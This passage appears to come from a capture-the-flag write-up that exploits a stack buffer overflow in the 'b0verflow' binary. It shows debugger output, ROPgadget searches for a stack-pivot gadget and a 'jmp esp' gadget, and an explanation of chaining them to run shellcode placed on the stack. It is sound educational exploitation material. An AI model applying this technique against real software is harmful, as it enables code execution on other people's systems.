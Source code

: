 ```
[+] Searching '15935728' in memory
[+] In '[heap]'(0x804b000-0x806d000), permission=rwx
  0x804b570 - 0x804b578  →   "15935728"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd0f8 - 0xffffd100  →   "15935728"
gef➤  i f
Stack level 0, frame at 0xffffd120:
 eip = 0x804857a in vul; saved eip = 0x8048519
 called by frame at 0xffffd130
 Arglist at 0xffffd118, args:
 Locals at 0xffffd118, Previous frame's sp is 0xffffd120
 Saved registers:
  ebp at 0xffffd118, eip at 0xffffd11c
```

So the question is, what will we call. PIE isn't enabled, so we can call gadgets from the binary. At the moment we don't have a stack or libc infoleak. The gadgets from the binary won't be enough to pop a shell on it's own, however it will be enough to call shellcode on the stack without a stack infoleak:

Stack pivot gadget:
```
$    python ROPgadget.py --binary b0verflow | grep "sub esp"
0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
```

Jmp esp gadget:
```
$    python ROPgadget.py --binary b0verflow | grep "jmp esp"
0x08048504 : jmp esp
```

So we will call the Stack pivot gadget first, then the `jmp esp` gadget. The stack pivot gadget will move the stack pointer down to our own input. It will leave off by executing the first DWORD of our input as an instruction pointer. That instruction pointer will be the `jmp esp` gadget. When that instruction is executed, the `esp` pointer will point to the new DWORD, which will be the second `4` bytes of our input. We will store our shellcode there, which will be executed by the `jmp esp` gadget. Let's take a look at how these gadgets operate:

We start off with the stack pivot gadget:
```
0x080484fd in hint ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x0       
$ecx   : 0xf7f2b010  →  0x00000000
$edx   : 0x0       
$esp   : 0xffa29750  →  0x08048504  →  <hint+7> jmp esp
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f29000  →  0x001dbd6c
$edi   : 0xf7f29000  →  0x001dbd6c
$eip   : 0x080484fd  →  <hint+0> push ebp
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffa29750│+0x0000: 0x08048504  →  <hint+7> jmp esp     ← $esp
0xffa29754│+0x0004: 0xf7f2000a  →  0x02b00e46
0xffa29758│+0x0008: 0x00000000
0xffa2975c│+0x000c: 0xf7d6b751  →  <__libc_start_main+241> add esp, 0x10
0xffa29760│+0x0010: 0x00000001
0xffa29764│+0x0014: 0xffa297f4  →  0xffa2a3e2  →  "./b0verflow"
0xffa29768│+0x0018: 0xffa297fc  →  0xffa2a3ee  →  "GNOME_TERMINAL_SCREEN=/org/gnome/Terminal/screen/7[...]"
0xffa2976c│+0x001c: 0xffa29784  →  0x00000000
```